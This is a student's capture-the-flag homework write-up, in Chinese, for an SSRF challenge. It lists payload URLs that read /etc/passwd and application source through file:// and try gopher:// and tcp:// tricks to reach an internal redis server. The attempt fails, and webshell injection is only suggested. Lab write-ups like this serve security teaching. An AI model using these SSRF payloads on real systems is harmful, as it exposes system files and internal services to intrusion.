 ## \[HW4\] Private Browsing: Revenge

- Flag: `Null`

### 解題過程 & 思路

1. 本題具有 SSRF 的漏洞，因此可以用下方這些 payload 拿到一些關於網站架構與邏輯的檔案。

```jsx
http://10.113.184.121:10083/api.php?action=view&url=file://127.0.0.1/etc/passwd

http://10.113.184.121:10083/api.php?action=view&url=file://127.0.0.1/var/www/html/config.php
http://10.113.184.121:10083/api.php?action=view&url=file://127.0.0.1/var/www/html/api.php

http://10.113.184.121:10083/api.php?action=view&url=file://127.0.0.1/readflag.c
```

2. 發現後端有 redis，為了跟後端連線嘗試了下列方法想繞過 gethostbyname 的檢查，有參考各類資料想辦法藉由控制不同工具解析 host name 的方法，不過嘗試各式各樣的變化似乎還是連不上 redis，不確定是不是工具不對，所以沒有成功連線。

```jsx
http://10.113.184.121:10083/api.php?action=view&url=tcp://aaa@redis:6379@127.0.0.1/_
http://10.113.184.121:10083/api.php?action=view&url=gopher://aaa@redis:6379@127.0.0.1/_

http://10.113.184.121:10083/api.php?action=view&url=gopher://127.0.0.1:80/

http://10.113.184.121:10083/api.php?action=view&url=gopher://127.0.0.1:80/_GET%20/var/www/html/api.php%20HTTP/1.1%0D%0AHost:127.0.0.1%0D%0A%0D%0A
http://10.113.184.121:10083/api.php?action=view&url=gopher://127.0.0.1:80/_GET%20/%20HTTP/1.1%0D%0AHost:redis:6379%0D%0A%0D%0A
```

3. 不過如果成功連線的話，可能可以嘗試注入 webshell 等方法。

> Reference

1. [AIS3 Pre-exam 2022 Write Up - HackMD](https://hackmd.io/@Ching367436/AIS3_Pre-exam_2022_Write-Up#Private-Browsing-500-pts)
2. [filter var - Validating non-private IP addresses with PHP - Stack Overflow](https://stackoverflow.com/questions/17150100/validating-non-private-ip-addresses-with-php)
3. [A New Era of SSRF - Exploiting URL Parser in Trending Programming Languages!](https://www.blackhat.com/docs/us-17/thursday/us-17-Tsai-A-New-Era-Of-SSRF-Exploiting-URL-Parser-In-Trending-Programming-Languages.pdf)
4. [HTML URL Encoding Reference](https://www.w3schools.com/tags/ref_urlencode.ASP)
5. [利用redis写webshell | 离别歌](https://www.leavesongs.com/PENETRATION/write-webshell-via-redis-server.html)
6. [Redis写webshell_redis dict写webshell-CSDN博客](https://blog.csdn.net/weixin_54227009/article/details/125154623)
7. [Redis攻防(未授权访问、利用redis写入webshell、任务计划反弹、Shellssh-keygen 公钥登录服务器、利用主从复制RCE)-CSDN博客](https://blog.csdn.net/q20010619/article/details/121912003)
8. [xss->ssrf->redis · sky's blog](https://skysec.top/2018/08/17/xss-ssrf-redis/)
9. [ssrf与gopher与redis - sijidou - 博客园](https://www.cnblogs.com/sijidou/p/13681845.html)
10. [XSS的威力：从XSS到SSRF再到Redis-安全客 - 安全资讯平台](https://www.anquanke.com/post/id/156377)
11. [FwordCTF 2020 - Web/Bash Writeups | Ahmed Belkahla](https://ahmed-belkahla.me/post/fword-ctf2020/)
12. [CSRF and DNS-rebinding to RCE in Selenium Server (Grid) - /dev/posts/](https://www.gabriel.urdhr.fr/2022/02/07/selenium-standalone-server-csrf-dns-rebinding-rce/)
13. [AIS3 EOF CTF 初賽 | Kaibro's blog](https://blog.kaibro.tw/2018/01/16/AIS3-EOF-2017-%E5%88%9D%E8%B3%BD/)
14. [2020::AIS3::前測官方解 · NiNi's Den](https://blog.terrynini.tw/tw/2020-AIS3-%E5%89%8D%E6%B8%AC%E5%AE%98%E6%96%B9%E8%A7%A3/)
